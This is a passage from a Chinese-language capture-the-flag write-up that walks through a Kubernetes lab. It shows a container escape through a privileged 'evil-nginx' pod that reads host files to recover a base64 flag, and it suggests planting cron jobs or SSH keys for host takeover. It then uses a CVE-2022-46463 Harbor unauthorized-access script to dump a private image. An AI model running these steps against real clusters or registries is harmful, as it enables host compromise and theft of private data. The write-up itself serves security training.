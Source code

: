 如下，便获取到了宿主机文件系统的权限，此时可以尝试写入计划任务或 SSH 公钥的方式获取宿主机的完全控制权。

读取宿主机上的文件：

```console
root@kali-server:~# kubectl --insecure-skip-tls-verify -s https://172.22.14.37:6443/ --namespace=default exec -it evil-nginx bash
kubectl exec [POD] [COMMAND] is DEPRECATED and will be removed in a future version. Use kubectl exec [POD] -- [COMMAND] instead.
root@evil-nginx:/# id
uid=0(root) gid=0(root) groups=0(root)

root@evil-nginx:~# cat /mnt/root/.mysql_history
_HiStOrY_V2_
show\040databases;
create\040database\040flaghaha;
use\040flaghaha
DROP\040TABLE\040IF\040EXISTS\040`f1ag`;
CREATE\040TABLE\040`flag06`\040(
`id`\040int\040DEFAULT\040NULL,
\040\040`f1agggggishere`\040varchar(255)\040DEFAULT\040NULL
)\040ENGINE=MyISAM\040DEFAULT\040CHARSET=utf8;
CREATE\040TABLE\040`flag06`\040(\040`id`\040int\040DEFAULT\040NULL,\040\040\040`f1agggggishere`\040varchar(255)\040DEFAULT\040NULL\040)\040ENGINE=MyISAM\040DEFAULT\040CHARSET=utf8;
show\040tables;
drop\040table\040flag06;
DROP\040TABLE\040IF\040EXISTS\040`f1ag`;
CREATE\040TABLE\040`flag04`\040(
`id`\040int\040DEFAULT\040NULL,
\040\040`f1agggggishere`\040varchar(255)\040DEFAULT\040NULL
)\040ENGINE=MyISAM\040DEFAULT\040CHARSET=utf8;
CREATE\040TABLE\040`flag04`\040(\040`id`\040int\040DEFAULT\040NULL,\040\040\040`f1agggggishere`\040varchar(255)\040DEFAULT\040NULL\040)\040ENGINE=MyISAM\040DEFAULT\040CHARSET=utf8;
INSERT\040INTO\040`flag`\040VALUES\040(1,\040'ZmxhZ3tkYTY5YzQ1OS03ZmU1LTQ1MzUtYjhkMS0xNWZmZjQ5NmEyOWZ9Cg==');
INSERT\040INTO\040`flag04`\040VALUES\040(1,\040'ZmxhZ3tkYTY5YzQ1OS03ZmU1LTQ1MzUtYjhkMS0xNWZmZjQ5NmEyOWZ9Cg==');
exit
```

进行 base64 解码，获取到 flag04：

```
flag{da69c459-7fe5-4535-b8d1-15fff496a29f}
```

## flag05 | Harbor Unauthorized Access Vulnerability (CVE-2022-46463)

![alt text](https://raw.githubusercontent.com/h0ny/repo/main/images/2e60cc0fc614074d.png)

利用 [CVE-2022-46463](https://github.cosm/404tk/CVE-2022-46463) 漏洞，拉取仓库查找 flag05：

```console
root@kali-server:~# python3 harbor.py http://172.22.14.46/
[*] API version used v2.0
[+] project/projectadmin
[+] project/portal
[+] library/nginx
[+] library/redis
[+] harbor/secret

root@kali-server:~# python3 harbor.py http://172.22.14.46/ --dump harbor/secret --v2
[+] Dumping : harbor/secret:latest
    [+] Downloading : 58690f9b18fca6469a14da4e212c96849469f9b1be6661d2342a4bf01774aa50
    [+] Downloading : b51569e7c50720acf6860327847fe342a1afbe148d24c529fb81df105e3eed01
```